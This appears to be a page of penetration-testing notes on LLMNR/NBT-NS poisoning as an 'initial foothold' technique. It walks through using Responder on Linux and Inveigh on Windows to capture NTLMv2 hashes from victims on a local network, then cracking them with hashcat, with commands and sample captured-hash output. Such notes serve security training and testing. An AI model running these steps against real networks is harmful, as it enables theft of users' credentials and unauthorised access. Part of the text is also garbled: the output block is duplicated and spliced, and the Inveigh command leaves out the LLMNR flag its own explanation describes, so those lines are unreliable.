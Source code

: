 # Initial Foothold

## LLMNR/NBT-NS Poisoning

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Attack Path

* **Initial Connection Request:**\
  The victim host attempts to connect to a resource on the network by typing `\\dollarboy`.
* **DNS Failure:**\
  The primary server responds to the victim saying that the requested host (`\\dollarboy`) is unknown because there is no matching DNS record for it.
* **LLMNR Broadcast Request:**\
  Since DNS failed, the victim’s machine sends a multicast/LLMNR broadcast across the local network asking, "Does anyone know `\\dollarboy`?"
* **Attacker Responds:**\
  The attacker, running **Responder** on a Kali machine, listens for such broadcasts and responds, pretending to be `\\dollarboy`. The attacker tricks the victim into believing it has found the right destination.
* **Authentication Request Sent:**\
  The victim, trusting the attacker’s response, tries to authenticate with `\\dollarboy` by sending its **NTLMv2** credentials (username and password hash) to the attacker.
* **Hash Captured and Exploited:**\
  The attacker now has access to the NTLMv2 hash, which can either be:
  * **Cracked offline** to retrieve the plaintext password.
  * **Used in an SMB Relay attack** to impersonate the user on other systems (if SMB signing is not enforced).

## LLMNR/NBT-NS Poisoning from Linux

* `sudo responder -I {interface}`&#x20;

```
[+] [LLMNR]  Poisoned answer sent to 192.168.1.10 for name DOLLARBOY
[+] [SMB] NTLMv2-SSP Hash captured from 192.168.1.10
[SMB] User: DOMAIN\victim_user
[SMB] NTLMv2 Hash: 
    [+] [LLMNR]  Poisoned answer sent to 192.168.1.10 for name DOLLARBOY
[+] [SMB] NTLMv2-SSP Hash captured from 192.168.1.10
[SMB] User: DOMAIN\victim_user
[SMB] NTLMv2 Hash: 
    victim_user::DOMAIN:1122334455667788:ABCDEF1234567890:010100000000000000E04BDEB8C83F18C351...B8C83F18C351...
```

Then save the hash in .txt file\
`victim_user::DOMAIN:1122334455667788:ABCDEF1234567890:010100000000000000E04BD..................`

* Then run hashcat to crack the hash\
  `hashcat -m 5600 hash.txt /path/to/wordlist.txt`

## LLMNR/NBT-NS Poisoning from Windows

For windows, we can use Inveigh [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

* `PS C:\dollarboy> Import-Module .\Inveigh.ps1`-> Import Inveigh module
* `PS C:\dollarboy> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y`\
  **Explanation:**\
  `-LLMNR Y`: Enable LLMNR poisoning.\
  `-NBNS Y`: Enable NBNS poisoning.\
  `-ConsoleOutput Y`: Display captured hashes in the PowerShell console.\
  additionally we can use `-FileOutput Y` to save into file

Once the NTLMv2 Hash is captured, crack with hashcat.

\+ We can use executable (C#) version of Inveigh. C# version is constantly updated.\
